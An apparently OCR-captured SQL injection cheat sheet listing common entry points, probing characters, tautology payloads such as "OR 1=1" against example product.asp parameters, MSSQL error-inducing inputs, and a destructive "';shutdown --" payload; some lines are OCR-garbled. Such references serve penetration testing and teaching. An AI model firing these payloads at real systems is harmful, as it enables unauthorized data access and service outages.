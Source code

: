 # SQL INJECTION CHEAT SHEET

# Reconnaissance and entry points for SQL Injection


## 1. Common vulnerability entry points for SQLi

Identify entry points using tools like **burp, nmap, dirb, nikto, google dorks
```sql
login forms
search fields
URL parameters (?id=1)
HTTP headers (User-Agent, Referrer)
cookies
file upload forms
```

## 2. Check for input validation

Try basic payloads (', ", ;, --, ', ")to see application response to Look for error messages, unexpected behaviors or delays that may indicate SQLi vulnerability

## 3. Test

To check if SQL injection is possible
Try injecting into a parameter eg: product.asp?1d=4 (SMO) (NUMERIC)
```sql
product.asp?id=5-1 (returns the result id=4)
product.asp?id=4 OR 1=1
Trying to inject into product.asp?name=Book **(STRING)**
product.asp?name=Bo'%2b'ok
product.asp?name=Bo' || 'ok (only MO)
product.asp?name=Book' OR 'x'='x
```

# Type of Database in use:

Shutting down SQL Server
  `';shutdown -- `

inject error inducing payloads:
```sql
  '
  "
  ')
  ")
  OR 1=1
  ' AND 1=CONVERT(int, 'a')-- -- For MSSQL
```
